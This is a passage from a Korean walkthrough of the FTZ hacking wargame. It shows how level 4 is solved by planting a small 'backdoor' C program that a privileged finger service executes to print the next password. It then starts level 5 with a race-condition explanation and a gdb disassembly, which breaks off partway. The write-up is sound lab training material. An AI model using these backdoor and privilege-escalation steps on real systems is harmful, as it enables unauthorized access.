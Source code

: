 그러나 실제 `server` 필드에 있는 `/home/level4/tmp/backdoor` 가 없으므로 정상적으로 실행되지 않는 것을 확인할 수 있다. 

이 문제는 간단히 해결 가능하다. 아래와 같은 코드를 짜서 해당 경로에 넣어두면된다.

```c
#include <stdio.h>

int main(void){
    
    system("my-pass");
    
}
```

```
[level4@ftz tmp]$ pwd
/home/level4/tmp
[level4@ftz tmp]$ ls backdoor 
backdoor
[level4@ftz tmp]$ finger level4@localhost
^[[H^[[J
Level5 Password is "~~~~~~~~~~~~~~".
```



## [+] FTZ level5

### Analysis

해당 문제는 레이스컨디션에 관한 문제다. 레이스컨디션 공격은 프로세스의 경쟁 상태에서 발생하는 취약점이다. 다수의 프로세스가 특정 자원을 할당 받기위해 경쟁을 하게 되는데 이 때 발생하게 된다.

문제를 풀어보면서 정확한 개념을 이해해본다.

```
[level5@ftz level5]$ cat hint

/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.
```

힌트를 확인하면 위와 같은 문구를 확인할 수 있다. `level5` 프로그램을 분석해본다.

```assembly
(gdb) disass main
Dump of assembler code for function main:
0x0804842c <main+0>:	push   %ebp
0x0804842d <main+1>:	mov    %esp,%ebp
0x0804842f <main+3>:	sub    $0x8,%esp
0x08048432 <main+6>:	and    $0xfffffff0,%esp
0x08048435 <main+9>:	mov    $0x0,%eax
0x0804843a <main+14>:	sub    %eax,%esp
0x0804843c <main+16>:	sub    $0x8,%esp
0x0804843f <main+19>:	push   $0x180
0x08048444 <main+24>:	push   $0x8048580	; "/tmp/level5.tmp"
0x08048449 <main+29>:	call   0x804832c <creat>
0x0804844e <main+34>:	add    $0x10,%esp
0x08048451 <main+37>:	mov    %eax,0xfffffffc(%ebp)
0x08048454 <main+40>:	cmpl   $0x0,0xfffffffc(%ebp)
0x08048458 <main+44>:	jns    0x8048484 <main+88>
0x0804845a <main+46>:	sub    $0xc,%esp
0x0804845d <main+49>:	push   $0x80485a0	; "Can not creat a temporary file.\n"
0x08048462 <main+54>:	call   0x804835c <printf>
0x08048467 <main+59>:	add    $0x10,%esp
0x0804846a <main+62>:	sub    $0xc,%esp
0x0804846d <main+65>:	push   $0x8048580	; "/tmp/level5.tmp"
```